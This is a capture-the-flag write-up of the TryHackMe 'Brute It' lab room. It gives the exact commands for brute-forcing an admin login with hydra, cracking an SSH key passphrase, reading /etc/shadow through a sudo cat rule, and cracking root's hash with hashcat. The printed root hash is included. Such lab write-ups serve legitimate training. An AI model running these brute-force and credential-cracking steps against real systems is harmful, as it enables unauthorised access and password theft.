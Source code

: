 ```yaml
---
title: "TryHackMe - Brute It"
author: Nasrallah
description: ""
date: 2022-12-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hydra, bruteforce, hashcat, crack]
img_path: /assets/img/tryhackme/bruteit
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Brute It](https://tryhackme.com/room/bruteit) from [TryHackMe](https://tryhackme.com). This machine is running a webserver where we find a login page that we brute force and find a user's password, Once we're logged in we find an ssh private key that we use to gain foothold. After that we exploit a sudo entry to read the shadow file and crack the root's hash to get his password thus getting root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
map scan report for 10.10.52.106
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, 22 running OpenSSH and 80 running Apache http web server.

### Web

Let's navigate to the web page.

![](1.png)

We see the default Apache 2 page, nothing really useful.

### Gobuster

Let's run a directory scan.

```terminal
└──╼ $ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.52.106/                                                  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.52.106/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/06 07:43:02 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.52.106/admin/]
/index.html           (Status: 200) [Size: 10918]                               
/server-status        (Status: 403) [Size: 277]                                 
                                                                                
===============================================================

```

We found a page called **/admin**, let's see what's there.

![](2.png)

It's a login page, and if we check the source code we find an interesting comment.

![](3.png)

We found the username but no password so let's brute force the login page with `hydra` using the following command:

### Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.52.106 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![](4.png)

We got the password, let's login.

![](5.png)

## **Foothold**

We found john ssh private key, let's copy it to our machine, give it the right permissions and connect with it.

![](6.png)

The private key is protected with a password so we use `ssh2john` to extract the hash and crack it using `john`.

Let's reconnect.

![](7.png)

## **Privilege Escalation**

Let's check our current privileges with `sudo -l`

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can run cat as root, so let's read the shadow file.

![](8.png)

Let's copy root's hash to a file and crack it with `hashcat`. 

```bash
└──╼ $ cat roothash.txt
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.
```

We use the following command to crack the hash.

```bash
hashcat -m 1800 roothash.txt /usr/share/wordlists/rockyou.txt --user
```

![](9.png)

We got the root's password, let's swith to him with the command `su -`

```terminal
john@bruteit:~$ su -
Password: 
root@bruteit:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bruteit:~#
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
